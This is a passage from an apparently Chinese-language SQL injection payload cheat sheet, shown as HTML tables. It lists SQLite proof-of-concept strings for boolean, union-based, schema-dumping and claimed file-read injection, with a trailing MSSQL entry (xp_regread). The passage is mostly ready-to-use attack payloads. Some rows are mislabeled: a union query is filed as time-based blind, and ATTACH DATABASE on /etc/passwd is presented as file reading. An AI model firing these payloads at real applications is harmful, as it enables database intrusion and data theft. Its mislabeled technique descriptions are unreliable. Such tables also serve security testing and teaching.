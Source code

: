 ...</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="212" width="212" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="mso-pagination:widow-orphan;text-align:left;"><span style=""><font face="方正小标宋_GBK"><span leaf="">xp_regread</span></font></span><span style=""><o:p></o:p></span></p></td></tr></tbody></table>  
  
  
5.  
SQLite  
<table><tbody><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">注入类型</span></font></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="310" width="310" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">POC示例</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="211" width="211" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">关键函数</span></font><font face="方正小标宋_GBK"><span leaf="">/特性</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">布尔检测</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="310" width="310" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; OR 1=1 --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="211" width="211" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">简单逻辑判断</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">联合查询</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="310" width="310" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT sqlite_version(), 1 --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="211" width="211" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">sqlite_version()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">时间盲注</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="310" width="310" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT sql, NULL FROM sqlite_master --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="211" width="211" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">sqlite_master系统表</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">文件读取</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="310" width="310" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;; ATTACH DATABASE &#39;/etc/passwd&#39; AS pwn --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="211" width="211" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">ATTACH DATABASE</span></font></span><span style=""><o:p></o:p></span></p></td></tr></tbody></table>  
  